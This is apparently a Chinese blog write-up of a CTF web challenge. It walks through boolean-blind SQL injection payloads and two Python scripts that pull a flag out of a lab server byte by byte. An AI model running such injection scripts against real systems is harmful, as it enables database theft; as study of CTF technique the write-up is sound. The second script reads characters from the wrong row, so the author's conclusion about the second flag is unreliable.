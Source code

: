 ```yaml
---
title: ZJU校巴::SQL_injection writeup
published: 2023-10-14 20:38:23
slug: zju-school-bus-sql-injection-writeup
image: ./hint.png
category: CTF
tags: [CTF, ZJU校巴, writeup, SQL注入]
---
```


## 前言

继续学习CTF，记录一下第一道Web。

## 题目

![hint](./hint.png)

作为教程性质的题目，这道题几乎把什么都写出来了，连表名flag_is_here都知道了，真好。

题目已经告诉我们表名，并且给出了注入类型属于数字而不是字符串，因此不需要加单引号。

简单试一下 `1 OR 1 = 1` 发现给出了 0-7 全部的题目。

![sql injection](./sql-injection-1.png)

再试一下 `1 AND EXISTS(SELECT * FROM flag_is_here)`，返回了第一条数据，题目果然没骗我。

猜测列名为 “flag” ，先手注 `1 AND EXISTS(SELECT flag FROM flag_is_here)` ，发现有这个列，居然一次就猜对了XD。

然后试一下有几行 `1 AND (SELECT count(*) FROM flag_is_here) = 1`，不行，居然不止一个。再来试试2个，发现成功了，有两行flag。

题目不允许使用 UNION ，那么只能考虑布尔盲注（Boolean-based Blind Injection）了，注意到这个题目的输出其实并不是 True or False，而是八个 bit 的数据，一共 256 种情况，可以利用这个减少尝试的次数。

现在想要获取第一个flag的长度，为了充分利用这 8 bit 的数据，使用 `8 OR (SELECT LENGTH(flag) FROM flag_is_here LIMIT 1) & (1 << id)` ，发现返回了以下界面：

![sql injection](./sql-injection-2.png)

二进制的1/2/4/5位为1，而其他位均为0，0b00110110转十进制就是54，flag有54位。但是还要再验证一下，因为假如flag长度大于255（虽然不太可能），这个方法返回的数据就是错误的。

`1 OR (SELECT LENGTH(flag) FROM flag_is_here LIMIT 1) = 54`，返回的页面验证了我的猜测。

flag长度54位，ASCII码范围0-127，每次可以试出一个字符。举个例子，比如说我想知道第五个字符，就使用 `8 OR (SELECT ASCII(SUBSTR(flag, 5, 1)) FROM flag_is_here LIMIT 1) & (1 << id)`，页面返回以下结果：

![sql injection](./sql-injection-3.png)

则第五个字符的0/1/2/4/5/6位为1，其他位为0，0b01110111 = 119，查阅ASCII码表，发现对应的字符是小写英文字母“w”。

![ASCII码表](./ascii-table.png)

当然可以手动一个个试出54位flag，但是还是写代码来得快一点，上代码：

```python
import requests
from lxml import etree # 引入lxml包，便于使用XPath解析HTML

url = "http://10.214.160.13:10002/"
flag_length = 54

def array2Byte(array):
    '''
    将数组转化为一个0-255的数字
    e.g. [0, 1, 2, 4, 5, 6] -> 119
    '''
    b = 0
    for i in array:
        b |= 1 << i
    return b

def getTexts(SQLquery):
    '''
    获取请求的正文部分，再利用XPath提取出所有<body>元素里的文本。
    去除全部空白的文本，和每段文本的前后空白部分。
    '''
    res = requests.get(url, params={"questionid": SQLquery}) 
    html = res.text
    texts = etree.HTML(html).xpath('//body/text()')
    texts = [x.strip() for x in texts if not x.isspace()]
    return texts

for i in range(1, flag_length + 1):
    texts = getTexts(f"8 OR (SELECT ASCII(SUBSTR(flag, {i}, 1)) FROM flag_is_here LIMIT 1) & (1 << id)")
    # 构造SQL注入字符串，先取flag的第i个字符，再转化为ASCII码，二进制且运算提取每一位是0还是1，如果是1，则页面会返回相应序号的文本

    array = [int(x[0]) for x in texts] # 获取每个文本的第一个字符并转为数字，也就是序号0-7
    ch = chr(array2Byte(array)) # 转ASCII码为字符
    print(ch, end='')
```

运行代码后就获得了flag。

我还是有点在意另一行flag里面是啥，于是把另一行的内容也跑出来了：

```python
import requests
from lxml import etree

url = "http://10.214.160.13:10002/"

def getByte(query):
    res = requests.get(url, params={"questionid": query}) 
    html = res.text
    texts = etree.HTML(html).xpath('//body/text()')
    texts = [x.strip() for x in texts if not x.isspace()]
    array = [int(x[0]) for x in texts]
    b = 0
    for i in array:
        b |= 1 << i
    return b

flag_length = getByte("8 OR (SELECT LENGTH(flag) FROM flag_is_here LIMIT 1,1) & (1 << id)")
print(flag_length)
for i in range(1, flag_length + 1):
    ch = chr(getByte(f"8 OR (SELECT ASCII(SUBSTR(flag, {i}, 1)) FROM flag_is_here LIMIT 1) & (1 << id)"))
    print(ch, end='')
```

发现只是截取了前35个字符的不完整flag，没有什么彩蛋。

## 总结

这个题目很有趣的地方是页面可以返回一个字节的数据，这样一个长度54的flag只需要测54次就行了。当然不这么做也是可以的，毕竟这是CTF又不是需要程序在给定时间内返回结果的算法竞赛，每次获得 1 bit 的 true or false 数据或者手动注入都可以做出来。
